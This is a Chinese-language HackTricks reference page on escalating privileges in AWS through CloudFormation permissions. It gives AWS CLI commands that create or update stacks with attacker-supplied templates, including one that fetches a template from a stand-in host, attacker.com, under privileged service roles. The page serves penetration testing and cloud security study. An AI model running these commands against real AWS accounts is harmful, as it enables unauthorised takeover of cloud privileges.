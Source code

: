 # AWS - Cloudformation权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者可以通过创建一个自定义模板的**CloudFormation堆栈**，该模板托管在他们的服务器上，来**以指定角色的权限执行操作，从而升级权限**：
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您将看到一个**利用示例**，其中包含额外权限**`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 特定的cloudformation服务角色权限提升。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的cloudformation堆栈**来更新它，并像之前的情景一样升级权限：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
### `cloudformation:SetStackPolicy` | `cloudformation:UpdateStack`

可以使用`cloudformation:SetStackPolicy`权限来**为堆栈授予`UpdateStack`权限**并执行攻击。

**潜在影响：**提升至指定的cloudformation服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果您拥有此权限但**没有`iam:PassRole`**，您仍然可以**更新使用的堆栈**并滥用它们已经附加的**IAM角色**。查看前一节的利用示例（只是不要在更新中指定任何角色）。

可以使用`cloudformation:SetStackPolicy`权限来**为堆栈授予`UpdateStack`权限**并执行攻击。

**潜在影响：**提升至已附加的cloudformation服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

具有**传递角色和创建/执行ChangeSet**权限的攻击者可以**创建/更新新的cloudformation堆栈并滥用cloudformation服务角色**，就像使用CreateStack或UpdateStack一样。

以下利用是使用**ChangeSet权限**创建堆栈的**变体**[**CreateStack one**](./#iam-passrole-cloudformation-createstack)。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可用于**为堆栈授予 `ChangeSet` 权限**并执行攻击。

**潜在影响：** 特权升级到 cloudformation 服务角色。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这类似于之前的方法，但不需要传递**IAM角色**，因此您可以**滥用已附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响:** 特权升级至已附加的CloudFormation服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以利用这些权限创建/更新StackSets，以滥用任意的CloudFormation角色。

**潜在影响:** 特权升级至CloudFormation服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以滥用此权限，无需`PassRole`权限即可更新StackSets，以滥用已附加的CloudFormation角色。

**潜在影响:** 特权升级至已附加的CloudFormation角色。

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
